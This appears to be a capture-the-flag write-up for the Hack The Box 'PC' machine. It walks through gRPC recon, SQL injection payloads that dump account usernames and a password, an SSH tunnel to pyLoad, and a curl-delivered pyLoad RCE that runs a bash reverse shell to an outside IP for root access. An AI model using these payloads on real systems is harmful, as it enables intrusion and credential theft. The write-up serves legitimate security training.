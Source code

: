 # PC

### Recon

- port 22 SSH
- port 50051 gRPC

Needed help identifying the port, [used this walkthrough](https://dickytrianza.medium.com/hackthebox-writeup-pc-b787db46f82b) for the gRPC part (remember to google default port 
next time!)

gRPC (Google Remote Procedure Call) is an open-source, high performance framework developed by Google that 
allows communication between client and server applications. It's designed to facilitate efficient and 
reliable data exchange between distributed systems and is commonly used in microservices architecture.

Connect to gRPC port with grpcui browser, or use Postman to send requests

`grpcui --plaintext 10.10.11.214:50051`

admin:admin is used as credentials

id parameter is injectable, sqlmap didn't work for me so looked [at this walkthrough](https://medium.com/@fares7elsadek/hackthebox-writeup-pc-1c0178023411)

Find first username, admin

```
{
	"id":"543 union SELECT username FROM accounts WHERE username NOT like 'sqlite_%' limit 1--"
}
```

Look at second username, sau

```
{
	"id":"543 union SELECT username FROM accounts LIMIT 1 OFFSET 1;"
}
```

Find password for sau

```
{
	"id":"543 SELECT password FROM accounts WHERE username='sau';"
}
```

linpeas.sh shows 127.0.0.1:8000 as listening  

Use an ssh tunnel to access pyload running on the target

`ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214`

Google shows pyload suffers from an [RCE vulnerability](https://www.exploit-db.com/exploits/51532) and ps aux shows it's running as root.

Write a bash reverse shell on the target

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/1337 0>&1
```

Use curl to to execute the reverse shell granting root access to the target

`curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'`

-i - include HTTP response headers in output
-s - silent mode
-k - insecure mode, skip verification step

*Note: $'' is ANSI-C quoting, allowing backslash-escaped characters to be replaced as specified by the ANSI C 
standard. [Source](https://www.gnu.org/software/bash/manual/html_node/ANSI_002dC-Quoting.html#ANSI_002dC-Quoting)*
